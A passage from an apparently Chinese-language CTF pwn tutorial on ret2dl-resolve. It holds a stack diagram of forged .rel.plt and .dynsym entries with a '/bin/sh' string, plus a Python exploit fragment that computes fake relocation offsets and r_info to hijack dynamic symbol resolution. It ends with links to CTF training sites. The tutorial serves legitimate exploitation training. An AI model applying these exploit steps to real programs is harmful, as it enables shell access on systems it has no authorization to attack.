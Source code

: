 ```
       		+---------------------+   
      0x18  |      r_offset       | 伪造的.rel.plt的结构体成员变量r_offset
            +---------------------+
      0x1c  |       r_info        | 伪造的.rel.plt的结构体成员变量r_info
            +---------------------+
      0x20  |        aaaa         |  对齐
       		+---------------------+
      0x24  |        aaaa         |  对齐
       		+---------------------+
      0x28  |       st_name       |  伪造的.dynsym的结构体的成员变量st_name
      		+---------------------+
      0x2c  |       st_value      |  伪造的.dynsym的结构体的成员变量st_value
      		+---------------------+
      0x30  |       st_size       |  伪造的.dynsym的结构体的成员变量st_size
      		+---------------------+
      0x34  |       st_info       |  伪造的.dynsym的结构体的成员变量st_info
       		+---------------------+           
       		|        aaaa         |  填充 
       		|        ....         |  填充          
       		|        aaaa         |  填充            
       		+---------------------+                
      0x50	|      /bin/sh        | /bin/sh字符串
       		+---------------------+ 
       		|        aaaa         |
       		|        ....         |              
       		|        aaaa         |           
   高地址位  +---------------------+

```

此步exp

```
plt0 = elf.get_section_by_name('.plt').header.sh_addr
#获取.rel.plt地址
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
#获取.dynsym的基地址
dynsym = elf.get_section_by_name('.dynsym').header.sh_addr

#在base_stage + 32的地方开始部署.dynsym结构体
fake_sym_addr = base_stage + 32
#对齐
Align = 0x10 - ((fake_sym_addr - dynsym) & 0xf )
fake_sym_addr = fake_sym_addr + Align
fake_write_sym = flat([0x54,0,0,0x12]) #伪造的.dynsym结构体
#计算.dynsym结构体下标
index_dynsym = int((fake_sym_addr - dynsym) / 0x10)

#在base_stage+24的位置开始部署.rel.plt的结构体

#那么在base_stage + 24的位置存放伪造结构体，并计算index_offset
index_offset = base_stage + 24 - rel_plt
write_got = elf.got['write']

#由.dynsym下标反推r_info
r_info = (index_dynsym << 8) | 0x7
fake_write_reloc = flat([write_got,r_info])

#r_info = 0x507
 
#计算write函数的reloc_index
write_reloc_index = (elf.plt['write'] - plt0) / 16 - 1
#因为索引不能为float，那么修改成int即可
write_reloc_index = int(write_reloc_index) * 8
```

[CTF-wiki]: https://ctf-wiki.org/pwn/linux/user-mode/environment/	"ctf-wiki知识库"
[CTFHub]: https://www.ctfhub.com/#/skilltree	"ctfhub技能树"
[攻防世界]: https://adworld.xctf.org.cn/challenges/list	"题库"